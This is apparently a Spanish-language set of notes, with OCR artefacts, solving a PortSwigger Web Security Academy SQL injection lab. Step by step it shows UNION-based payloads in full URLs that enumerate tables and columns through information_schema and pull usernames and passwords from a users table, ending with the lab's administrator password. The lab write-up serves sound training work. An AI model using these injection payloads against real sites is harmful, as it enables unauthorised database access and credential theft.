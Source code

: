 ```
SELECT PRODUCTNAME FROM PRODUCTS WHERE CATEGORY='DSADAS'

SELECT PRODUCTNAME FROM PRODUCTS WHERE CATEGORY='DSADAS'+UNION+SELECT+FROM+DUAL
AND WHERE EXISTS

ya estaba concatenadando

PASO 1

Crei que solo era un parametro que se estaba enviando pero me equivoque me parece que me confie con el enunciado, al parecer se estaba concatenando los resultado y no veia la respuesta, solo veia errores, en fin es una consulta que concatena los valores

PASO 2 CONOCER EL NUMEERO DE PARAMETROS

PASO 3 CONOCE EL TIPO DE BASE DATOS

PASO 4 IDENTIFICAR EL NOMBRE DE LAS TABLAS
table_name,NULL FROM information_schema.tables WHERE table_schema='public' AND table_type='BASE TABLE'--

table_name FROM information_schema.tables WHERE table_schema='public' AND table_type='BASE TABLE'--

https://0a8a00ce04022d5083478d6500f70030.web-security-academy.net/filter?category=Accessories%27+UNION+SELECT+NULL,table_name%20FROM%20information_schema.tables%20WHERE%20table_schema=%27public%27%20AND%20table_type=%27BASE%20TABLE%27--

RESULTADO
USERS
PRODUCTS

PASO 5 IDENTIFICAR EL NOMBRE DE LAS COLUMNAS

SELECT table_name FROM information_schema.tables WHERE table_schema='public' AND table_type='BASE TABLE';

SELECT column_name, data_type FROM information_schema.columns WHERE table_name = 'table';

column_name FROM information_schema.columns WHERE table_name = 'users';

RESULTADO
email
password
username

ULTIMO PASO REALIZAR CONSULTA

username||'#' || password FROM users
https://ID.web-security-academy.net/filter?category=Accessories%27+UNION+SELECT+NULL,username||%27#'%20||%20password%20FROM%20users--

https://ID.web-security-academy.net/filter?category=Accessories%27+UNION+SELECT+NULL,username||%27+%27||password+FROM+users--
//sin espacios
administrator
nc3xtl7hr3fiq7ljojoc


```
